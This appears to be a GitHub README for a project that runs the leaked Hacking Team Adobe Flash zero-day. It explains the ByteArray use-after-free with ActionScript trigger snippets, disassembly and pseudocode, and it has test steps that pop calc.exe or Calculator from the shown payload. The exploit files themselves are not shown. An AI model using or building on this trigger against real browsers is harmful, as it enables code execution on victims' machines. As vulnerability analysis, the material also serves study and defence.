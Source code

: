 # Flash0day
Aplicacion que ejecuta el 0day de flash (Hacking Team)

# 1. BACKGROUND
http://en.wikipedia.org/wiki/Adobe_Flash_Player

Congrats! You are reading about the most beautiful Flash bug for the last four
years since CVE-2010-2161.


# 2. DESCRIPTION

The use-after-free vulnerability exists inside the built-in ByteArray class
http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/utils/ByteArray.html

Let's create a simple ByteArray object:

    var ba:ByteArray = new ByteArray();
    ba.length = 8;
    ba[1] = 1;

Now we can access ba[] items and write numeric byte values into ba[].
Also we are allowed to write objects into ByteArray. For example:

    var obj = new MyClass();
    ba[0] = obj;

AS3 will try to implicitly convert the MyClass object into numeric value by
calling the MyClass.valueOf() method. This method can be easily redefined
within the user's code:

    class MyClass
    {
        prototype.valueOf = function()
        {
            ba.length = 88; // reallocate ba[] storage
            return 0;       // return byte for ba[offset]
        }
    }

Let's see how that implicit conversion occurs inside the native code:

    push esi
    mov  eax, [esp+8]                // the offset value from "ba[offset] = obj"
    push eax
    add  ecx, 0x18                   // ecx = this = "ba" object pointer
    call ByteArray.getStorage()      // gets ba[offset] storage pointer and
    mov  esi, eax                    // saves it in esi

    mov  ecx, [esp+0xC]              // "obj" pointer
    push ecx
    call AvmCore.toInteger()         // call MyClass.valueOf()
    add  esp,4
    mov  [esi], al                   // writes returned byte into array

    pop  esi
    ret  8

On high-level language this will look like:

    void ByteArray.setObjInternal(int offset, obj)
    {
        byte* dest = this.getStorage(offset);
        dest* = toInteger(obj);
    }

So the array storage pointer is saved in local variable, then AS3 valueOf() is
invoked from the native code and returned byte is written into destination
pointer at the end. If valueOf() changes the length of byte array (see above)
and reallocates its internal storage, then local destination pointer becomes
obsolete and further usage of that pointer can lead to UaF memory corruption.

Using this vulnerability, it's very easy to control what byte will be written
and at which offset this corruption will occur.


# 3. AFFECTED SOFTWARE
Adobe Flash Player 9 and higher


# 4. TESTING
Open the test "index.htm" file in your browser and press the button.

on Windows:
Calc.exe should be popped on desktop IE.
Calc.exe should be run as a non-GUI child process in metro IE.
Payload returns 0 from CreateProcessA("calc.exe") inside Chrome/FF sandbox.

on OS X:
Calculator is launched in FF or standalone Flash Player projector.
Payload returns 1 from vfork() in Safari sandbox.
